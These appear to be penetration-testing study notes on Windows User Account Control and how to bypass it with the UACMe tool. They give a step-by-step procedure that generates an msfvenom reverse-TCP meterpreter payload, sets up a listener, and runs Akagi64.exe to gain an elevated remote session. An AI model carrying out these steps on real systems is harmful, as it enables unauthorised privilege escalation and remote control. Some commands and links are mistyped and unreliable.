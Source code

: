 
### What is UAC ?

UAC (User Access Control)

- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorised changes from being made to the operating system.

- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.

- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.

- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### Bypassing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system. 

- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.

- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation. 

- There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.

### What is `UACMe` ?

- UACMe is an open source, robust privilege escalation tool developed by @hfireOx. It can be used to bypass Windows UAC by leveraging various techniques. 

	+ GitHub: https:/aithub.com/hfirefOx/UACME 

- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.

- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AuteElevate tool. 

- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

### How to use `UACMe` ?

- Points to remember:
	- We can check the list of user accounts with `net user`.
	- We can check the list of local administrators with `net local administrators`.
	- If we are already a local administrator and want to execute a program that requires elevated privileges, we'll be prompted with a consent prompt. 
	- When UAC is set to the highest level, it can be difficult to bypass.

1) Gain initial access to a target system
2) If the `meterpreter` session is running in a 32 bit process, we can migrate to a 64 bit process such as `explorer.exe` with PID of 2448. Command is `migrate 2448`.
	+ The process ID of explorer can be found using the command `pgrep explorer`.
	+ Process migration is used for evasion, persistence, stealth and architecture matching.
	+ The original process that the attacker used to gain access to the system is different from the process they inject their code into.
3) We can check the privileges of the current user using `getprivs`
4) Generate a `msfvenom` `meterpreter` payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```
5) Setup the multi handler to listen for connections. `use multi/handler`
6) Go back to the `meterpreter` session and navigate to the `C:\\` drive of the target. 
7) Create a Temp directory `mkdir Temp`
8) Upload the `payload.exe` and `Akagi64.exe` files into the Temp directory. 
9) `shell` into the system and execute `Akagi64.exe`.
```
.\Akagi64.exe <key_number> <path_to_payload>
```
1) After executing this command, `Akagi` will execute the payload with administrative privileges. And we should receive an elevated `meterpreter` session in our listener.